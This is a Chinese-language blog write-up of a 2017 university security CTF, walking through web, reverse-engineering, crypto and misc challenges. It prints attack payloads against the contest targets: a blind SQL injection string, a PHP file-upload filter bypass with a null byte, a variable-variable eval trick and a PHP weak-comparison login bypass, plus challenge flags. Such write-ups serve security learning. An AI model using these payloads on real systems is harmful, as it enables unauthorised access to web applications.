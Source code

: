 ```yaml
---
layout: post
title: "2017安全运维挑战赛writeup"
date: 2017-11-13
description: "2017高校网络信息安全管理运维挑战赛writeup"
tag: writeup
---
```

跟着朋友打了一下2017的高校运维赛，虽然比赛过程中存在这一些不可描述的东西（比如逃课比赛被老师抓到...等等），总之感谢队友没把我抛弃掉。
比赛末尾主办方让写wp了，写的不是很细，就放到博客上充当一篇博文吧QAQ

### Web
#### Login
用万能密码登录发现姿势错误，然后开始尝试sql盲注
```
Payload：uname=1'^(ord(left(pwd,1))>101)^'0&pwd=1
```
总共30位<br>
可以写脚本也可以试试手注，注到手抽筋<br>
```
fsaoaigafsdfsdubbwouibiaewrawe
```
最后flag
![](/images/2017-11-13/1.png)
```
EIS{SQLI_INJECTIion_blind}
```

#### PHP是最好的语言
[参考链接](http://www.jianshu.com/p/179fa39909f4)<br>
.bak下载源码<br>
![](/images/2017-11-13/2.png)
对着他的payload稍微改了一下
```
EIS{php_th3_b45t_l4ngu4g3}
```

#### 文件上传
![](/images/2017-11-13/3.png)
```
Payload：ext=php&content[]=<?ph&content[]=p%00phpinfo();
```
![](/images/2017-11-13/4.png)
```
EIS{6yp455_with_4rr4y}
```

#### 随机数
![](/images/2017-11-13/5.png)
试了下爆破，神奇的可行，然后就出来了<br>
![](/images/2017-11-13/6.png)
```
EIS{brute_forc3_th3_r4nd0m_s33d}
```

#### PHP代码审计
```
<?php   
error_reporting(0); 
include "flag1.php"; 
highlight_file(__file__); 
if(isset($_GET['args'])){ 
    $args = $_GET['args']; 
    if(!preg_match("/^\w+$/",$args)){ 
        die("args error!"); 
    } 
    eval("var_dump($$args);"); 
}
```
```
Payload：args=GLOBALS
```
![](/images/2017-11-13/7.png)

#### 快速计算
写了个爬虫
有点瑕疵 第二个数如果是三位数的话就会报错
```
import urllib
import urllib2
import re


url = "http://202.120.7.220:2333/"
html = urllib2.urlopen("http://202.120.7.220:2333/").read()
data = {}

num = re.findall("<br/>(.*?)<input type=",html)
print num[0]
print num[0][0:5] + "*" + num[0][6:10] + "+" + num[0][11:15] + "+(" + num[0][17:22] + "+" + num[0][23:28] + ")"

h= int(num[0][0:5])*int(num[0][6:10])+ int(num[0][11:15])*(int(num[0][17:22])+int(num[0][23:28]))
print h

data['v'] = str(h)
post_data = urllib.urlencode(data)
print post_data
html2 = urllib2.urlopen(url, post_data).read()
print html2

```
![](/images/2017-11-13/8.png)

#### PHP trick
```
Payload：?gift=&flag=lag=
```
![](/images/2017-11-13/9.png)
RVF{woshiflag}
凯撒解密一下

#### 不是管理员也能login
主要考查php弱类型
查看说明页面拿到源码，貌似之前也再哪里遇到过
用户名的md5前两位是0e，密码的话是反序列化
md5('s155964671a')=0e342768416822451524974117254469
帐号就是 s155964671a了，密码a:2:{s:3:"pwd";b:1;s:4:"name";b:1;}
![](/images/2017-11-13/10.png)
```
EIS{Smi1E_on_YouR_face_And_in_y0ur_heart}
```

### RE
#### IginteMe
![](/images/2017-11-13/11.png)
分析第一步，发现是C++写的
是时候掏出我的IDA了
F5大法好，首先找到了判断关键
![](/images/2017-11-13/12.png)
查看源码
![](/images/2017-11-13/13.png)
然后就是上脚本了
```
list1 = [0x0D, 0x13, 0x17, 0x11, 0x02, 0x01, 0x20, 0x1D, 0x0C, 0x02, 0x19, 0x2F, 0x17, 0x2B, 0x24, 0x1F, 0x1E, 0x16, 0x09, 0x0F, 0x15, 0x27, 0x13, 0x26, 0x0A, 0x2F, 0x1E, 0x1A, 0x2D, 0x0C, 0x22, 0x04,]
a = b'GONDPHyGjPEKruv{{pj]X@rF'
flag = []
for x, y in zip(list1, a):
    flag.append(((x^y) - 72) ^ 0x55)
print (bytes(flag))
```

#### ReverseMe
这个给的程序无法打开真有点伤，不过不影响做题
![](/images/2017-11-13/14.png)
双击定位到了这里
![](/images/2017-11-13/15.png)
寻找交叉引用拿到源码
![](/images/2017-11-13/16.png)
剩下的就是脚本问题了
![](/images/2017-11-13/17.png)

### crypto
#### easy crypto
![](/images/2017-11-13/18.png)
一个对称加密对着给出的文件逆写python脚本：
![](/images/2017-11-13/19.png)

### Misc
#### 隐藏在黑夜里的秘密
看到有密码而且没发现提示，在想会不会是伪加密
![](/images/2017-11-13/20.png)
查看图片发现惊喜
![](/images/2017-11-13/21.png)

#### 签到题
扫描得flag


可能写的不是很详细，具体大佬们可以联系我
